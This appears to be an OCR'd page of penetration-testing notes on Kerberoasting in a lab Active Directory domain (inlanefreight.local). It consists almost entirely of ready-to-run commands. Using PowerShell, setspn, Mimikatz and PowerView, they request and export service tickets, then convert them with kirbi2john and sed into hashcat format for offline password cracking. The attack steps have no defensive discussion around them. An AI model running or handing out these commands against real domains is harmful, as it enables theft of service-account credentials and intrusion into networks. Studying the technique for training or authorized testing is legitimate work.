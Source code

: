 **Targeting a Single User**
```
> Add-Type -AssemblyName System.IdentityModel
> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

**Retrieving All Tickets Using setspn.exe**
```
PS > setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

##### Extracting Tickets from Memory with Mimikatz
```
mimikatz # base64 /out:true
mimikatz # kerberos::list /export  

```

**Preparing the Base64 Blob for Cracking**
```
$ echo "<base64 blob>" |  tr -d \\n 
```

**Placing the Output into a File as .kirbi**
```
$ cat encoded_file | base64 -d > sqldev.kirbi
```

**Extracting the Kerberos Ticket using kirbi2john.py**
```
$ python2.7 kirbi2john.py sqldev.kirbi
```

**Modifiying crack_file for Hashcat**
```
$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

#### Using PowerView to Extract TGS Tickets [https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1]
```powershell
PS > Import-Module .\PowerView.ps1

# Get Kerberoastable acconts
PS > Get-DomainUser * -spn | select samaccountname

# Using PowerView to Target a Specific User
PS > Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

# Exporting All Tickets to a CSV File
PS > Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation

# Viewing the Contents of the .CSV File
PS > cat .\ilfreight_tgs.csv
```
